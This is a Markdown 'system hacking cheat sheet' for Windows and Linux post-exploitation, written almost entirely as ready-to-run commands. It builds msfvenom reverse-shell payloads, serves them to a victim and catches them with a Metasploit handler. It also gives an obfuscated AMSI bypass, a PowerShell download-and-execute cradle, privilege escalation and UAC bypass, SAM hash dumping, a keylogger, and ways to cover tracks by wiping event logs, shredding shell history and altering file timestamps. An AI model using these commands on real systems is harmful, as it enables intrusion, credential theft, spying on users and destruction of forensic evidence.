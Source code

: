 ## System hacking cheat sheet

### Getting shell with msfvenom and use PowerUp.ps1 to escalate privileges

#### Generate payload and encode using msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=[Port in the Host Machine] -o [Output Path/shellcode.exe]
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=[IP Address of Host Machine] -f exe > Desktop/Backdoor.exe
```
[msfvenom documentation](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

#### Upload shellcode using a local server

```sh
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp [PATH]/shellcode.exe /var/www/html/share

service apache2 start
```

Download it to the victim machine `[IP Address of Host Machine]/share/shellcode.exe`.

#### Using handler in metasploit to connect to the payload

```sh
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST [IP Address of Host Machine]
set LPORT [Port in the Host Machine]
exploit 
```

#### Upload PowerUp.ps1

```sh
upload [PATH]/PowerUp.ps1 PowerUp.ps1
```

#### PowerUp.ps1

##### Check all vulnerabilities

```sh
shell
poweshell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
[PowerUp.ps1 tutorial](https://recipeforroot.com/advanced-powerup-ps1-usage/)

`bypass` is used to bypass PowerShell’s execution policy.

For disable [AMSI](https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-defending-powershell-with-the-anti-malware-scan-interface-amsi):

```sh
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

###### Excute PowerUp.ps1 without upload the script

```sh
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1'); Invoke-AllChecks"
```

##### Escalate privileges

```sh
Invoke-ServiceAbuse -Name 'Name of the vulnerable service'
```

### Attemp to bypass Windows UAC protection via the FodHelper Registry Key usind bypassuac_fodhelper exploit

```sh
use exploit/windows/local/bypassuac_fodhelper
```

If it works, in some cases we can already escalate privileges with some techniques like `getsystem`.

### Attemp to elevate privileges with Meterpreter

```sh
getsystem -t 1
```

### Obtain password hashes in the SAM file using Metasploit (root requiered)

```sh
run post/windows/gather/smart_hashdump
```

It uses the service [Named Pipe Impersonation (In Memory/Admin) Technique](https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/).

### Clear the events logs that require administrative or root privileges using Meterpreter (root requiered)

```sh
clearev
```

### Clear all event viewer logs using wevtutil (Windows)

```sh
for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"
```

```sh
@echo off

FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo All Event Logs have been cleared!
goto theEnd

:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof

:noAdmin
echo Current user permissions to execute this .BAT file are inadequate.
echo This .BAT file must be run with administrative privileges.
echo Exit now, right click on this .BAT file, and select "Run as administrator".  
pause >nul

:theEnd
Exit
```

### Securely delete a chunk of data by overwriting it to prevent its possible recovery using in-built Windows tool (Windows)

```sh
cipher /w:[Drive or Folder or File Location] 
```

### Avoid bash history

#### Disable the BASH shell from saving the history (Linux)

```sh
export HISTSIZE=0
```

#### Make bash history unreadable (Linux)

```sh
shred ~/.bash_history
```

```sh
shred ~/.bash_history && cat /dev/null > .bash_history
```

### Leave no trace of MACE attributes when reading or modifying files using Meterpreter

#### To view the mace attributes of a file (Windows)

```sh
timestomp [FILE] -v
```

#### Change MACE attributes (Windows)

```sh
timestomp [FILE] -m "mm/dd/yyyy hh:mm:ss"
```

### Kylogger using Meterpreter

#### Start keylogger

```sh
keyscan_start
```

#### Read keylogger log

```sh
keyscan_dump
```

## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`